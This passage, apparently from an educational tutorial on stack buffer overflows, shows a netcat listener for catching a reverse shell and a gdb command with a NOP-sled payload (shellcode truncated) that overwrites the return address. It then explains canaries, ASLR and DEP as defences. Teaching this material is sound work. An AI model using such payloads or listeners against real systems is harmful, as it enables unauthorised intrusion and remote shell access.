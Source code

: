 > We can see all the info with the command `info proc all`
{: .prompt-tip}

## Identification of the Return Address

To exploit it, first start a nc:
```console
zero@pio$ nc -lnvp 31337
```

Change the **EIP** by some address after `\x50` (for example from `0xffffd64c` -> `\x4c\xd6\xff\xff`).

In the gbd:
```
(gdb) run $(python -c 'print "\x55" * (1040 - 124 - 95 - 4) + "\x90" * 124 + "\xda\xca\xba...<SNIP>...\x5a\x22\xa2" + "\x4c\xd6\xff\xff"')
```

---

# Prevention Techniques and Mechanisms

The best prevention are:

## Canaries 

The **canaries** are known values written to the stack between buffer and control data to detect buffer overflows. The principle is that in case of a buffer overflow, the canary would be overwritten first and that the operating system checks during runtime that the canary is present and unaltered.

## ASLR

**Address Space Layout Randomization** is a security mechanism against buffer overflows. It makes some types of attacks more difficult by making it difficult to find target addresses in memory. The operating system uses ASLR to hide the relevant memory addresses from us. So the addresses need to be guessed, where a wrong address most likely causes a crash of the program, and accordingly, only one attempt exists.

## DEP 

**Data Execution Preventions** a security feature available in Windows XP, and later with Service Pack 2 (SP2) and above, programs are monitored during execution to ensure that they access memory areas cleanly. DEP terminates the program if a program attempts to call or access the program code in an unauthorized manner.

